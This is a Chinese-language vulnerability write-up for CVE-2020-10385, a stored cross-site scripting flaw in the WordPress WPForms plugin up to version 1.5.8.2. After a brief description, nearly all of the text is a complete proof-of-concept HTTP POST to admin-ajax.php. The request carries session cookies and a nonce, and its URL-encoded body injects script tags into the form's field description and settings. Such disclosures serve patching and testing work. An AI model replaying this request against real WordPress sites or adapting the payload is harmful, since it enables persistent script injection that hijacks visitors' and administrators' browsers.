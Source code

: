 （CVE-2020-10385）WordPress Plugin - WPForms 1.5.9 储存型xss
============================================================

一、漏洞简介
------------

WordPress WPForms Contact Form
1.5.9之前版本中存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

Version: 1.5.8.2 and below

三、复现过程
------------

### poc

    POST /wp-admin/admin-ajax.php HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.0-sec.org/wp-admin/admin.php?page=wpforms-builder&view=settings&form_id=23
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 3140
    Origin: http://www.0-sec.org
    Connection: close
    Cookie: wp-saving-post=15-saved; wordpress_db156a460ca831632324809820a538ce=jinson%7C1582145873%7CBKGMGaw77TcSEz7kE0ijBd8VfAq7KwALhBVfKNRbKst%7Cf826697f923b7f17c30049eea275c6523b7e2418ab354e106c50f0314b9bdae9; comment_author_email_db156a460ca831632324809820a538ce=dev-email@flywheel.local; comment_author_db156a460ca831632324809820a538ce=jinson; wp-settings-time-1=1581973079; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_db156a460ca831632324809820a538ce=jinson%7C1582145873%7CBKGMGaw77TcSEz7kE0ijBd8VfAq7KwALhBVfKNRbKst%7Cbaecd49d797bff21499da712891744737c67fd481d59e04a952554579f26c637
     
    action=wpforms_save_form&data=%5B%7B%22name%22%3A%22id%22%2C%22value%22%3A%2223%22%7D%2C%7B%22name%22%3A%22field_id%22%2C%22value%22%3A%2213%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bid%5D%22%2C%22value%22%3A%2211%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Btype%5D%22%2C%22value%22%3A%22text%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Blabel%5D%22%2C%22value%22%3A%22Single+Line+Text%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bdescription%5D%22%2C%22value%22%3A%22%3Cscript%3Ealert(%5C%22XSS+on+form+description%5C%22)%3C%2Fscript%3E%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bsize%5D%22%2C%22value%22%3A%22medium%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bplaceholder%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Blimit_count%5D%22%2C%22value%22%3A%221%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Blimit_mode%5D%22%2C%22value%22%3A%22characters%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bdefault_value%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Bcss%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22fields%5B11%5D%5Binput_mask%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22settings%5Bform_title%5D%22%2C%22value%22%3A%22Security+Test+WPForms%22%7D%2C%7B%22name%22%3A%22settings%5Bform_desc%5D%22%2C%22value%22%3A%22%3Cscript%3Ealert(%5C%22XSS+on+form+description+2%5C%22)%3C%2Fscript%3E%22%7D%2C%7B%22name%22%3A%22settings%5Bform_class%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22settings%5Bsubmit_text%5D%22%2C%22value%22%3A%22Submit%22%7D%2C%7B%22name%22%3A%22settings%5Bsubmit_text_processing%5D%22%2C%22value%22%3A%22Sending...%22%7D%2C%7B%22name%22%3A%22settings%5Bsubmit_class%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22settings%5Bhoneypot%5D%22%2C%22value%22%3A%221%22%7D%2C%7B%22name%22%3A%22settings%5Bnotification_enable%5D%22%2C%22value%22%3A%221%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Bemail%5D%22%2C%22value%22%3A%22%7Badmin_email%7D%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Bsubject%5D%22%2C%22value%22%3A%22New+Security+Test+WPForms+Entry%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Bsender_name%5D%22%2C%22value%22%3A%22ptest%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Bsender_address%5D%22%2C%22value%22%3A%22%7Badmin_email%7D%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Breplyto%5D%22%2C%22value%22%3A%22%22%7D%2C%7B%22name%22%3A%22settings%5Bnotifications%5D%5B1%5D%5Bmessage%5D%22%2C%22value%22%3A%22%7Ball_fields%7D%22%7D%2C%7B%22name%22%3A%22settings%5Bconfirmations%5D%5B1%5D%5Btype%5D%22%2C%22value%22%3A%22message%22%7D%2C%7B%22name%22%3A%22settings%5Bconfirmations%5D%5B1%5D%5Bmessage%5D%22%2C%22value%22%3A%22%3Cp%3EThanks+for+contacting+us!+We+will+be+in+touch+with+you+shortly.%3C%2Fp%3E%22%7D%2C%7B%22name%22%3A%22settings%5Bconfirmations%5D%5B1%5D%5Bmessage_scroll%5D%22%2C%22value%22%3A%221%22%7D%2C%7B%22name%22%3A%22settings%5Bconfirmations%5D%5B1%5D%5Bpage%5D%22%2C%22value%22%3A%222%22%7D%2C%7B%22name%22%3A%22settings%5Bconfirmations%5D%5B1%5D%5Bredirect%5D%22%2C%22value%22%3A%22%22%7D%5D&id=23&nonce=938cf431d2
